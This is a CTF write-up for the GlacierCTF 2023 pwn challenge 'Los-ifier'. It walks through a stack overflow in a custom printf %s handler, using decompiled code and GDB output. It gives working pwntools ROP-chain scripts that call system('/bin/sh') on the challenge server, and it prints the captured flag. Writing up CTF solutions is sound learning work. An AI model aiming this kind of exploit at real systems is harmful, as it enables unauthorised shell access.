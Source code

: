 ```yaml
---
title: Los-ifier
date: 
description: Writeup for Los-ifier [GlacierCTF 2023]
author: pinebel
tags:
- pwn
draft: true
---
```


## Challenge Description:

Normal binary for normal people.

## Intuition 


First we run a checksec and a file on the binary and we can see that it's statically linked and that it lacks PIE. 
When first opening the binary in Ghidra we see a simple main function with nothing special, we can also observe that there is a function named setup() called, let's investigate. When opening the function, there is an interesting call made : register_printf_specifier(0x73,printf_handler,printf_arginfo_size). What this actually does is handling the %s fromat  specifier from the printf() function, let's see how the printf is handled in the printf_handler function. We observe another weird function, named loscopy() which takes three parameters. The first one is the address of local_58 + 3, the second one is our input and the last one is 10 ('\n'). Opening the loscopy function  we can see an overflow vulnerability inside of the while. 
 

 ```c
 undefined8 main(void)

{
  char local_108 [256];
  
  setup();
  fgets(local_108,0x100,(FILE *)stdin);
  printf("-> %s\n",local_108);
  return 0;
}

void setup(void)

{
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  register_printf_specifier(0x73,printf_handler,printf_arginfo_size);
  return;
}

size_t printf_handler(FILE *param_1,undefined8 param_2,undefined8 *param_3)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = *(undefined8 *)*param_3;
  local_58 = 0x736f4c;
  loscopy((long)&local_58 + 3,local_10,10);
  local_18 = strlen((char *)&local_58);
  fwrite(&local_58,1,local_18,param_1);
  return local_18;
}


void loscopy(char *param_1,char *param_2,char param_3)

{
  char *local_18;
  char *local_10;
  
  local_18 = param_2;
  local_10 = param_1;
  while (param_3 != *local_18) {
    *local_10 = *local_18;
    local_18 = local_18 + 1;
    local_10 = local_10 + 1;
  }
  return;
}

```
 
 ## Solution 
 
 Let's see what we can get from GDB, putting a breakpoint in the loscopy() function we can see that we can overwrite the __printf_function_invoke() with our input.  

[#0] 0x40182c → loscopy()
[#1] 0x4018d0 → printf_handler()
[#2] 0x43c3b7 → __printf_function_invoke()
[#3] 0x405672 → printf_positional()
[#4] 0x4072b7 → __printf_buffer()
[#5] 0x409181 → __vfprintf_internal()
[#6] 0x404d19 → printf()
[#7] 0x4019c6 → main()

gef➤  x/20g 0x00007fffffffc940
0x7fffffffc940: 0x00007fffffffc9c0      0x00000000004018d0
0x7fffffffc950: 0x0000000000000000      0x00007fffffffc9e0
0x7fffffffc960: 0x00007fffffffcc30      0x00007fffffffca00
0x7fffffffc970: 0x4141414141736f4c      0x4141414141414141
0x7fffffffc980: 0x0000414141414141      0x0000000000000000
0x7fffffffc990: 0x0000000000000000      0x0000000000000000
0x7fffffffc9a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc9b0: 0x0000000000000000      0x00007fffffffdc00
0x7fffffffc9c0: 0x00007fffffffc9e0      0x000000000043c3b7
0x7fffffffc9d0: 0x0000000000000000      0x00007fffffffcc30

The question now is, with what do we overwrite the __printf_function_invoke() address. Remembering that it's statically linked we can craft a payload and invoke a shell. First we need to see how much padding there is needed  10*8+5 bytes. To create this exploit we use a small ROP chain (gadgets were found with ROPgadget) , first we need to put the “/bin/sh” address into RDI (system's argument register) and then we should return to system. Let's see if it works! 

Getting the addresses of system and /bin/sh:

```
gef➤  p system
$1 = {<text variable, no debug info>} 0x404ae0 <system>

gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/kali/CTF/Glacier/Losifier/Losifier/chall'(0x478000-0x4a0000), permission=r--
  0x478010 - 0x478017  →   "/bin/sh" 
  0x4784d9 - 0x4784e0  →   "/bin/sh" 
```


Initial payload:
```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)


p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```


Mhmm, it doesn't work, let's see why. The error we got is: stopped 0x4047c8 in do_system (), reason: SIGSEGV. The problem is that the stack should be aligned in 16-byte bounderies, to fix this, we use a ret gadget for padding (found with ROPGadget). So our final payload looks like this:

```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)

p += p64(0x000000000040101a) # ret for stack alignment 
p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```

## Flag 

Running the script we get:

```
$ python3 payload_clever.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{th1s_1s_th3_@riginol_fl@9}
```




